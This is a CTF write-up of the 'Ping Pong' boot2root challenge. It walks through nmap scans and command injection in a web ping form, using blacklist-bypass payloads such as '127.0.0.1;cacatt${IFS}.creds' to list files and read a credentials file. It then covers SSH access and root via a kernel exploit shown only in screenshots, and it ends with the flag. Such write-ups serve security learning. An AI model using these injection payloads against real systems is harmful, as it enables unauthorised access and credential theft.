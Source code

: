 ```yaml
---
layout: default
title : muzec - THN B'Darija CTF Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/163996136-8eb23528-8405-4f79-8f8e-2647dd9f1929.png)

Welcome to the Moroccan national CTF competition write-ups hosted by Th3 Hacker News B'darija which is a fun one really great challanges and guess what we won me and my teammate `Aptx1337` .

![image](https://user-images.githubusercontent.com/69868171/163996754-40f5061e-8de2-419e-84df-dbd063d20ec1.png)

Now let get started already without wasting to much of time on it.

### Boot2Root Ping Pong

We always start with an nmap scan.....

```
nmap -p- --min-rate 10000 -oN nmap/allports -v IP
```

```
# Nmap 7.91 scan initiated Tue Apr 19 10:08:59 2022 as: nmap -p- --min-rate 10000 -oN nmap/allports.tcp -v 165.232.89.13
Increasing send delay for 165.232.89.13 from 0 to 5 due to 143 out of 476 dropped probes since last increase.
Increasing send delay for 165.232.89.13 from 40 to 80 due to 92 out of 305 dropped probes since last increase.
Increasing send delay for 165.232.89.13 from 80 to 160 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 165.232.89.13 from 160 to 320 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 165.232.89.13 from 320 to 640 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 165.232.89.13 from 640 to 1000 due to 11 out of 11 dropped probes since last increase.
Warning: 165.232.89.13 giving up on port because retransmission cap hit (10).
Nmap scan report for 165.232.89.13
Host is up (0.33s latency).
Not shown: 58856 filtered ports, 6675 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
587/tcp open  submission

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue Apr 19 10:14:28 2022 -- 1 IP address (1 host up) scanned in 329.15 seconds
```

Now let use some default nmap scripts and service detection on it to see what we have XD.

```
┌──(muzec㉿Muzec-Security)-[~/Desktop/CTFPlayground/thbctf/ping]
└─$ nmap -sC -sV -oN nmap/normal.tcp 165.232.89.13  -p22,80 
Starting Nmap 7.91 ( https://nmap.org ) at 2022-04-19 10:12 WAT
Nmap scan report for 165.232.89.13
Host is up (0.58s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Ubuntu 6ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 00:3f:c8:b2:5c:a0:4f:c0:3f:67:f4:9a:fe:ee:2b:ab (ECDSA)
|_  256 8c:df:3e:bf:e9:c7:f5:a6:5a:d9:cc:be:73:89:ab:3e (ED25519)
80/tcp open  http    Apache httpd 2.4.48 ((Ubuntu))
|_http-server-header: Apache/2.4.48 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 119.14 seconds
```

Now we know we have 2 open ports let check what we have running on the webserver.

![image](https://user-images.githubusercontent.com/69868171/164002000-cf2624d9-41fc-49e9-ad7d-e82908f62877.png)

That a simple installation page of apache webserver let confirm we have anything special on `index.php` .

![image](https://user-images.githubusercontent.com/69868171/164002350-263d8d47-5f0b-4193-be78-2d2027c6d40e.png)

Interesting a page which we can ping with it.

![image](https://user-images.githubusercontent.com/69868171/164002580-5efe828f-c462-47b4-92da-02f0182fd9a4.png)

Do we have anything special in the source code.

![image](https://user-images.githubusercontent.com/69868171/164002712-26fd41f8-9edc-4f2c-a81b-a20dd42b2e4b.png)

We are blacklist from running some `OS` command which can lead to command injection but not to worry let try some bypassing.

![image](https://user-images.githubusercontent.com/69868171/164003855-a2a568bd-3c58-47a3-bb97-cbd616460b11.png)

Now we have command injection let see what we can loot `credentials` `credentials` XD 

![image](https://user-images.githubusercontent.com/69868171/164006193-70db47ce-6484-4f45-8815-6e4ee94c83ef.png)

```
127.0.0.1;llss${IFS}-la
```

Now that is what am talking about `.creds` seems promising let see what we have in it.

![image](https://user-images.githubusercontent.com/69868171/164006653-15d48b6a-2330-4a70-b5f2-47559a7fbd88.png)

```
127.0.0.1;cacatt${IFS}.creds
```

Credentials seems encoder with help of cyberchef let decode it.

![image](https://user-images.githubusercontent.com/69868171/164007092-51bde298-a81c-4415-bf18-ef64d6b3a05d.png)


Now we have credentials let hit SSH.

![image](https://user-images.githubusercontent.com/69868171/164007462-7a5277cb-fc6a-4f3a-83e1-e9254ba1660d.png)

We are in time to get root checking for `sudo` and `SUID` i got nothing so let some kernal version exploit.

![image](https://user-images.githubusercontent.com/69868171/164008067-54c079cd-311e-4e46-884a-ab4528cac796.png)


Now let hit google for some research after trying some exploits with no success i got an exploit on github and decided to give it a try 

![image](https://user-images.githubusercontent.com/69868171/164011686-81f393ef-9d16-43a4-991f-07328e6c77b4.png)

Now let run our exploit.

![image](https://user-images.githubusercontent.com/69868171/164012344-39f017c8-d3cd-4846-ba7e-b4765652eecb.png)

Boom we are root and we have the `flag`. 

![image](https://user-images.githubusercontent.com/69868171/164013128-fa0cf565-af88-4b60-b473-620cef217c24.png)

```
thnb{p1nG_p0onG_g4m3_w4s_FuN_4kh4y_Sp1p47_696969}
```


Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>

